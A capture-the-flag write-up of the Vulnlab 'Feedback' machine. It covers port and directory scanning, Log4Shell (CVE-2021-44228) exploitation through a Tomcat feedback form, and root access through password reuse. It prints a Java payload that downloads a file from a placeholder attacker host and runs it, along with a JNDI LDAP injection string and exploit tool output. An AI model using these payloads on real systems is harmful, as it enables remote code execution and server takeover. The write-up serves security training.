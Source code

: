 # Vulnlab: Feedback

`Difficulty:` Easy

## Summary:

- Apache Tomcat
- /feedback Directory where "feedback" is logged using Java
- Log4Shell (CVE-2021-44228)
- Password Reuse

### Initial Scan
Initial Nmap scan shows an Apache Tomcat running over HTTP on port 8080.
```shell
➜  ~ nmap -sC -sV 10.10.120.186
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 20:16 EDT
Nmap scan report for 10.10.120.186
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 93:54:07:04:92:d4:1f:fd:54:21:5e:b2:db:ca:7c:ad (RSA)
|   256 f6:ec:e3:d7:97:e6:34:38:62:fe:58:2a:b0:98:21:99 (ECDSA)
|_  256 ca:5a:8b:bc:12:4f:8e:9f:13:30:ff:c1:40:fe:a0:d7 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-title: Apache Tomcat/9.0.56
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Visiting the page reveals it is a default page with nothing inherently suspicious. 

### Directory Fuzzing

A quick Dirb scan reveals the /feedback directory.
```shell
➜  ~ dirb http://10.10.117.96:8080

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed Aug  9 21:03:03 2023
URL_BASE: http://10.10.117.96:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.117.96:8080/ ----
+ http://10.10.117.96:8080/docs (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/examples (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/favicon.ico (CODE:200|SIZE:21630)
+ http://10.10.117.96:8080/feedback (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/host-manager (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/manager (CODE:302|SIZE:0)

-----------------
END_TIME: Wed Aug  9 21:15:25 2023
DOWNLOADED: 4612 - FOUND: 6
```

This page allows us to submit feedback. When successful the page tell us that our feedback has been 'logged'. Even without the context clues this can be verified by viewing source.

```html
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF 8">
        ...
    </head>
    <body>
        ...
        <!-- Builb with Java, Struts2 & Log4J -->
    </body>
</html>
```

### Log4Shell
You can either create your own java payload or work your way around the GitHub PoC.

https://vulndev.io/2021/12/11/lab-exploiting-log4shell-cve-2021-44228/
```java
public class RCE {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("wget http://Attacker/x -O /tmp/x");
            p.waitFor();
            r = Runtime.getRuntime();
            p = r.exec("/bin/bash /tmp/x");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public RCE(){
        System.out.println("Is this RCE?");
    }
}
```

https://github.com/kozmer/log4j-shell-poc
```shell
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Pretty much, we are able to use JNDI (Java Naming and Directory Interface) as a means to interract when an attacker LDAP server. We host our payload and when the feedback request gets parsed it will download our payload and run it (giving us a shell).

### Root
Simple Password reuse to wrap it all up.
```shell 
tomcat@ip-10-10-10-7:~/conf$ ls
ls
catalina.policy      jaspic-providers.xml  server.xml	     web.xml
catalina.properties  jaspic-providers.xsd  tomcat-users.xml
context.xml	     logging.properties    tomcat-users.xsd
tomcat@ip-10-10-10-7:~/conf$ cat tomcat-users.xml
cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="[*****]" roles="manager-gui"/>
  <user username="robot" password="[*****]" roles="manager-script"/>

</tomcat-users>
tomcat@ip-10-10-10-7:~/conf$ su root
su root
Password: [*****]
root@ip-10-10-10-7:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-10-7:~# ls
ls
root.txt  snap
  ```


